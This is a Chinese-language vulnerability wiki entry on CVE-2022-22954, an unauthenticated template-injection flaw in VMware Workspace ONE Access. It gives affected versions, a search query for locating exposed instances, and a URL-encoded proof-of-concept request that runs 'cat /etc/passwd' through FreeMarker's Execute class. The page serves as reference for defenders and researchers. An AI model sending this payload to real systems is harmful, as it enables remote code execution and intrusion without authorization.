


# VMware Workspace ONE Access SSTI漏洞 CVE-2022-22954

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 三产品版本未字段化，Realize应核vRealize命名
- 无官方补丁链接与修复版本
- 只有编码请求截图缺成功判据文字
- 与杂项22954源码分析互补，见跨CVE结论

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

VMware Workspace ONE Access（以前称为VMware Identity Manager）旨在通过多因素身份验证、条件访问和单点登录，让您的员工更快地访问SaaS、Web和本机移动应用程序。其中的CVE-2022-22954是一个匿名服务器模板注入漏洞，未经身份验证的攻击者可以利用此漏洞进行远程任意代码执行。

## 漏洞影响

```
VMware Workspace ONE Access Appliance （版本号：20.10.0.0 ，20.10.0.1 ，21.08.0.0 ，21.08.0.1 ）
VMware Identity Manager Appliance （版本号：3.3.3 ， 3.3.4 ， 3.3.5 ，3.3.6）
VMware Realize Automation （版本号：7.6）
```

## 网络测绘

```
app="vmware-Workspace-ONE-Access"
```

## 漏洞复现

登录页面




验证POC

```
/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
